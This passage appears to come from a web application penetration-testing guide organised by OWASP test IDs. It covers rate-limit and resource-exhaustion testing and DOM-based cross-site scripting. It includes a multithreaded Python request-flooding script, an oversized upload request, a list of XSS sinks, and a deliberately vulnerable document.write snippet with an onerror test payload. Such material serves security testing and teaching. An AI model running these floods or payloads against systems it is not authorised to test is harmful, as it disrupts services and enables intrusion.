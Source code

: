 #### Rate Limiting Testing
```python
# Automated request flooding
import requests
import threading
import time

def flood_request():
    for i in range(1000):
        requests.post('https://target.com/api/action', json={'data': i})
        time.sleep(0.1)

# Launch multiple threads
for _ in range(10):
    threading.Thread(target=flood_request).start()
```

#### Resource Exhaustion Testing
```http
# Large payload testing
POST /api/upload HTTP/1.1
Content-Type: application/json
Content-Length: 10000000

{"data": "A" * 10000000}
```

## 11. Client-Side Testing

### 11.1 Test for DOM-based Cross Site Scripting (OTG-CLIENT-001)

#### DOM XSS Identification
```javascript
// Common DOM XSS sinks
document.write()
document.writeln()
innerHTML
outerHTML
eval()
setTimeout()
setInterval()
Function()
```

#### DOM XSS Testing
```html
<!-- URL fragment-based DOM XSS -->
<script>
document.write(location.hash.slice(1));
</script>

<!-- Testing URL: https://target.com/page.html#<img src=x onerror=alert('DOM XSS')> -->
```

